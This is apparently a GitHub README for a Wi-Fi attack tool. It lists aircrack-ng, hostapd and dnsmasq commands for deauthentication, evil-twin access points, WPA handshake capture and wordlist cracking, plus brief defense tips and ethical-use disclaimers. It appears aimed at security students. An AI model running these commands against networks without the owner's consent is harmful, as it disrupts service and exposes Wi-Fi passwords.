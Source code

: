 
# 🔥 Wi-Fi Attack Automation Tool (Kali Linux & Windows PowerShell) 🔥

This tool allows you to automate Wi-Fi attacks such as Deauthentication, Evil Twin, and WPA Handshake Capture in **Kali Linux**, and enables Wi-Fi scanning and learning features in **Windows PowerShell**. Perfect for cybersecurity students and professionals!

🚨 **Disclaimer**: This tool is for educational purposes only. Always get permission from network owners before conducting any attacks.

## 📜 Features

### 🔥 **Kali Linux** Version:
- 🕵️ **Network Scanning**: Identify nearby Wi-Fi networks.
- 🚫 **Deauthentication Attack**: Disconnect all clients from a target network.
- 💀 **Evil Twin Attack**: Set up a rogue Wi-Fi access point.
- 📡 **WPA Handshake Capture**: Capture handshakes for offline cracking.
- 🛡️ **Defense Tips**: Learn how to defend your network against attacks.

### 💻 **Windows PowerShell** Version:
- 🕵️ **Wi-Fi Scanning**: View available Wi-Fi networks.
- 🛡️ **Defense Tips**: Learn about Wi-Fi security best practices.
- 📚 **Educational Features**: Gain insights into different types of Wi-Fi attacks and how they work.

## 🎯 How to Use

### Kali Linux Setup

#### 1. Install Dependencies
Ensure you have all necessary tools installed:
```bash
sudo apt-get install aircrack-ng hostapd dnsmasq
```

#### 2. Clone the Repo
```bash
git clone https://github.com/Danyalkhattak/wifi-attack-tool.git
cd wifi-attack-tool
```

#### 3. Install Python Dependencies
```bash
pip install -r requirements.txt
```

#### 4. Run the Tool
```bash
sudo python3 main.py
```

---

### Windows PowerShell Setup

#### 1. Clone the Repo
For Windows PowerShell, you can clone the repository by running:

```powershell
git clone https://github.com/Danyalkhattak/wifi-attack-tool.git
cd wifi-attack-tool
```

#### 2. Install Dependencies
You may need to install some PowerShell modules:

```powershell
Install-Module -Name WiFiProfileManagement
```

You can also use built-in cmdlets for simple network scanning.

#### 3. Run the Tool
```powershell
.\main.ps1
```

---

## 📡 Wi-Fi Scanning

### Kali Linux:
- Run the network scanning module to view nearby Wi-Fi networks:
```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```

### Windows PowerShell:
- Scan for available Wi-Fi networks:
```powershell
netsh wlan show networks
```

---

## 🚀 Attacks (Kali Linux)

1. **Deauthentication Attack**:
   - Disconnect clients from a target network:
     ```bash
     sudo airmon-ng start wlan0 <channel>
     sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
     ```

2. **Evil Twin Attack**:
   - Create a fake access point:
     ```bash
     sudo hostapd -B /etc/hostapd.conf
     sudo dnsmasq -C /etc/dnsmasq.conf
     ```

3. **WPA Handshake Capture**:
   - Capture a WPA handshake:
     ```bash
     sudo airodump-ng --bssid <BSSID> --channel <channel> -w <output> wlan0mon
     ```

4. **Crack WPA Handshake**:
   - Crack the captured WPA handshake using a wordlist:
     ```bash
     sudo aircrack-ng <handshake.cap> -w /usr/share/wordlists/rockyou.txt
     ```

---

## 🛡️ Defense Measures

### Linux & Windows:
After simulating attacks, learn how to protect your network:
- Use **WPA3** encryption for enhanced security.
- Disable **WPS** (Wi-Fi Protected Setup).
- Enable **802.11w** to protect management frames.
- Set a strong and unique Wi-Fi password.
- Regularly monitor your network for suspicious devices.

---

## 🎯 Windows PowerShell Features

In Windows PowerShell, this tool provides insights and educational examples on common Wi-Fi attacks. It includes:
- **Wi-Fi Scanning**: View the available Wi-Fi networks around you.
- **Attack Simulations**: Learn how attacks like Deauthentication and Evil Twin work (educational only).
- **Defense Tips**: Understand how to protect your network against common attacks.

---

## 🌐 Connect with Me

Follow me on Instagram or support my work by buying me a coffee!

[![Instagram](https://img.shields.io/badge/Instagram-E4405F?style=for-the-badge&logo=instagram&logoColor=white)](https://instagram.com/dannyk_739)
[![BuyMeACoffee](https://img.shields.io/badge/Buy_Me_A_Coffee-FFDD00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black)](https://www.buymeacoffee.com/DannyK)

---

## 📖 Tutorials

### Scanning for Networks

#### Kali Linux:
1. Start your Wi-Fi adapter in monitoring mode:
   ```bash
   sudo airmon-ng start wlan0
   ```

2. Scan networks in range:
   ```bash
   sudo airodump-ng wlan0mon
   ```

#### Windows PowerShell:
1. Run the following command to view available networks:
   ```powershell
   netsh wlan show networks
   ```

### Defending Against Attacks

1. **WPA3**: Use WPA3 encryption for the strongest security.
2. **MAC Filtering**: Limit which devices can connect to your Wi-Fi based on their MAC address.
3. **Disable WPS**: Turn off WPS in your router settings to prevent brute-force attacks.

---

## 🚀 Roadmap

- Add ARP Spoofing and DNS Poisoning attacks.
- Implement a GUI for both Windows and Linux.
- Add support for advanced password cracking options.

## ⚠️ Disclaimer

This tool is for **ethical hacking** and **educational purposes only**. Do not use it on networks you do not own or have permission to test.
